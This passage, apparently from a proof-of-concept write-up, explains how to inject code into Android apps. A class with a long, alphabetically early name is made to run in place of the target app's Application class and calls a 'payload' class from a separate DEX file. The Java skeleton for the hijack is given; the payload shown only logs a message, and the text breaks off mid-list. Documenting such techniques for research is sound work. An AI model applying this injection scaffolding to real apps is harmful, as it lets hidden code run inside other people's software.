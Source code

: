 To prepare the files to be injected, a project was created in Android Studio, with three classes.

Class `InjectedApp`. Its full name:

`aaaaaaaa.aaaaaaaaaaaaaaaaaaaa.aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.aaaaaaaaaaaaaaaaaaaaaa.InjectedApp`

This name must meet two rules:

1. It must be longer than any Application class name of any target application

2. It must be higher in alphabetical order of any Application Class name of any application

The `InjectedApp` class that will be executed instead of the Application class of the target application:

```java
package aaaaaaaa.aaaaaaaaaaaaaaaaaaaa.aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.aaaaaaaaaaaaaaaaaaaaaa;
import aaaaaaaaaaaa.payload;
import z.z.z;

public class InjectedApp extends z {

    public InjectedApp() {
        super();
        payload p = new payload();
        p.executePayload();
    }
}
```

The main goal of the class is to start executing a malicious code that is in another DEX:

```java
        payload p = new payload();
        p.executePayload();
```

The `payload` class contains malicious code:

```java
package aaaaaaaaaaaa;

import android.util.Log;

public class payload {

    public void executePayload() {
            Log.i("HELL", "Hello, I'm a malicious payload");
    }
}
```

The full name of the class must satisfy the following rule:

1. It must be alphabetically higher than any Application class name of any application 

To inject arbitrary malicious code, you must create a DEX file that must comply with the conditions:
